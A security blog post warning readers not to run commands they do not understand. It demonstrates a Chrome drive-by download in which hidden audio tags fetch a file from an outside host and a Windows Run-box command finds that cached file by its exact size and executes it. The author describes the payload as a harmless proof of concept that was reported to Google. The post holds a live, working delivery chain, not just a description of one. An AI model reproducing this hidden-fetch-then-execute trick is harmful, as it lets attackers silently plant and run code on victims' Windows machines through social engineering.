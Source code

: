 ```yaml
---
layout: post
title: Don't run commands you don't really understand
comments: true
---
```


This demonstrates a fully silent drive-by download in Google Chrome (rather similar to CVE-2011-0611, but without the automatic execution part), as well as some social engineering magic: a PoC binary will execute if the below seemingly harmless command line is entered in a **Win+R** prompt on a Windows system. Note that you may need to wait for a few seconds before the fun starts.

<pre>
cmd /c for /r %g in (*_*) do if %~zg==23456 copy /y "%g" "%g.log" & "%g.log"
</pre>

<IMG src=https://i.imgur.com/jgmi7XN.png>

Can you figure out how this works?

<audio style=visibility:hidden src=http://trax.x10.mx/cybersweet2b.au />
<audio style=visibility:hidden src=http://trax.x10.mx/cybersweet2b.au />

Notes: 

  * The PoC binary is a 100% harmless demo  
  * The chiptune in the PoC is (c) 1987 Jozz
  * Reported to Google in November 2015 (status: Wontfix)

<A href=https://twitter.com/hexatomium>Follow</A> @hexatomium
